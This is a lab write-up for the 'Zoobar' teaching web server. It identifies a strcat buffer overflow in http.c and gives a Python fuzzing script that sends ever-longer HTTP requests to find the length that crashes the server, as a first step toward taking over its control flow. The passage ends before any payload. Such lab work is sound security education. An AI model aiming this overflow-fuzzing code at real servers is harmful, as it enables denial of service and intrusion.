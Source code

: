 # Zoobar: Exploit 1

Antti Ollila
Niklas Särokaari

## Vulnerability

    [http.c:276] The program allocates 1024 bytes for a variable 'pn'. 
    Then it uses the vulnerable 'strcat' function to append a string 
    from 'pn' to 'name' variable.
    
## Exploit
Our goal is to find out a request that could crash the server and
after that, to exploit it further to gain control of the control flow.

The server does pretty good job filtering any non-HTTP requests out,
so we have to have the default HTTP-query included in the exploit:

    GET / HTTP/1.1\r\nHost: "+ HOSTNAME + "\r\nConnection: Close\r\n\r\n"
    
The command above just gets the index page and does nothing else.

Next step were to find out how much data can the server handle including
the HTTP-request. We did this by using a python script to generate HTTP-requests
of increasing length:

    # Fuzzed HTTP Requests trying to find
    # the maximum size that the server
    # can handle
    
    import sys, socket, time
    
    # Use in the form "python httpfuzz.py host port"
    
    host = sys.argv[1] # Recieve IP from user
    port = int(sys.argv[2]) # Recieve Port from user
    
    length = 100 # Initial length of 100 A's
    
    while (length < 3000): # Stop once we've tried up to 3000 length
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Declare a TCP socket
        client.connect((host, port)) # Connect to user supplied port and IP address
    
        command = "GET /" +  length * "A" + " HTTP/1.1\r\nHost: "+ host + "\r\nConnection: Close\r\n\r\n"
        client.send(command) # Send the user command with a variable length name
        data = client.recv(1024) # Recieve Reply
        client.close() # Close the Connection
        time.sleep(2)
        print "Length Sent: " + str(length) # Output length of the request
        length += 100 # Try again with an increased length

